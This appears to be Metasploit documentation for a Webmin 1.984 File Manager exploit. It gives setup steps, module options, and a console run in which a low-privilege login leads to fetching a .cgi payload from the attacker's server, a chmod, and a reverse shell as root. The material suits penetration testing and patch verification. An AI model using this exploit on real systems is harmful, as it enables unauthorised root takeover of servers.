 ## Vulnerable Application

In Webmin v1.984, affecting File Manager module, any authenticated low privilege user without access rights to the
File Manager module could interact with file manager functionalities such as download file from remote URL and change
file permission (chmod). It is possible to achieve Remote Code Execution via a crafted .cgi file by chaining those
functionalities in the file manager.

### Setup, on Ubuntu 20.04

```
wget https://download.webmin.com/devel/deb/webmin_1.984_all.deb
sudo dpkg -i  webmin_1.984_all.deb
```

Webmin should now be installed. The credentials for the web UI will be the same as the
user that installed Webmin

## Options
### USERNAME
A specific username to authenticate as
### PASSWORD
A specific password to authenticate with

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_file_manager_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a session as the `root` user.

## Scenarios
### Webmin 1.984, on Ubuntu 20.04

```
msf6 > exploit/linux/http/webmin_file_manager_rce
[*] Using exploit/linux/http/webmin_file_manager_rce
msf6 exploit(linux/http/webmin_file_manager_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/webmin_file_manager_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/webmin_file_manager_rce) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(linux/http/webmin_file_manager_rce) > set username msfuser
username => msfuser
msf6 exploit(linux/http/webmin_file_manager_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://172.16.199.1:8080/tmBFT82mvsHD
[*] Attempting to authenticate with Webmin
[+] Authentication successful
[*] Downloading remote url
[*] Fetching payload from HTTP server
[*] Request 'GET /tmBFT82mvsHD.cgi'
[*] Sending payload ...
[*] Finished downloading remote url
[*] Modifying the permissions of the uploaded payload to 0755
[+] Deleted /usr/share/webmin/tmBFT82mvsHD.cgi
[*] Command shell session 9 opened (172.16.199.1:4444 -> 172.16.199.132:58058) at 2022-10-25 16:21:02 -0400
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
